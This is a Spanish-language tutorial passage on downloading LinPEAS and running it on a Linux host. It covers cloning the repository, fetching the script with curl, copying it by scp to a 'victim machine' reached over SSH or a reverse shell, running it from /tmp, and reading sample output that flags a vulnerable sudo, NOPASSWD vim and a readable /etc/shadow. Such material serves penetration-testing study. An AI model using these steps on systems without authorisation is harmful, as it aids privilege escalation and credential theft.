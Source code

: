 
#### ✅ Opción 2: Clonar todo el repositorio PEASS-ng

```bash
git clone https://github.com/carlospolop/PEASS-ng.git
cd PEASS-ng/linPEAS
chmod +x linpeas.sh
```

---

### ✅ Cómo ejecutar LinPEAS (básico)

Como usuario limitado:

```bash
./linpeas.sh
```

O si estás en una máquina víctima a la que accediste por SSH o reverse shell, sube el archivo por SCP:

```bash
scp linpeas.sh usuario@ip_victima:/tmp
```

Y luego:

```bash
chmod +x /tmp/linpeas.sh
/tmp/linpeas.sh
```

---

#### ⚠️ NOTA: Si estás en una máquina sin `wget`, puedes usar:

```bash
curl -O https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
```

---

### 🎯 Ejemplo fácil de entender (resumen de resultados)

Supón que lo ejecutas y ves algo como:

```
[+] Sudo version: 1.8.25
    * This version is vulnerable to CVE-2019-14287

[+] User is allowed to run the following via sudo:
    (ALL) NOPASSWD: /usr/bin/vim

[+] Interesting Files:
    /home/user/.bash_history
    /etc/shadow (readable!)

[+] Writable SUID binaries:
    /usr/bin/suid-bin
```
